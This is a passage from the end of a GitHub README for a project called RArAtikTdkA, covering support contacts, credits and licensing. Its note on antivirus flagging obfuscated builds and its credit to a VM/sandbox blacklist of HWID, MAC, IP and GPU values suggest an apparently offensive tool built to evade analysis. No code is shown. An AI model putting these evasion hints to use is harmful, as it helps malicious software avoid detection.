  a [documentation request](https://github.com/PanagiotisDrakatos/RArAtikTdkA/issues/new?assignees=&labels=type%3A+docs&template=documentation-request.yaml&title=%F0%9F%93%96+Documentation%3A+).

Not sure where to start? Find me on discord and we will help you get started

## Support

For support, email panagiotisdrakatos@gmail.com or join me Discord:panos5427.
Meaning, if you liked using this app or it has helped you in any way,
I'd like you send me an email about anything you'd want to say about this software.
I'd really appreciate it!

## Note

- ⭐️ Give me a Star!! RArAtikTdkA is constantly updating, support us!
- The analysis was done by me, without having obfuscated the source code (either with pyarmor etc),
- I would not recommend using RArAtikTdkA + obfuscatebecause many times av trigger obfuscated codes as false positive
  even if legitimate.
- List of HWID/MAC/IP/GPU are from 6nz (https://github.com/6nz/virustotal-vm-blacklist)

## Credits

This software uses the following open source packages:

- [C#](https://dotnet.microsoft.com/en-us/languages/csharp)
- [Python](https://www.python.org/)
- [Node.js](https://nodejs.org/)
- [Kali](https://www.kali.org/)
- [Wireshark](https://www.wireshark.org/)
- [Marked - a markdown parser](https://github.com/chjj/marked)
- [showdown](http://showdownjs.github.io/showdown/)
- [CodeMirror](http://codemirror.net/)
- [highlight.js](https://highlightjs.org/)

## Authors

- [@panagiotisdrakatos](https://github.com/PanagiotisDrakatos)

## License

This project is distributed under the MIT license version 2.0 (see the LICENSE file in the project root).

By submitting a pull request to this project, you agree to license your contribution under the MIT license version 2.0
to this project.

[](https://choosealicense.com/licenses/mit/)
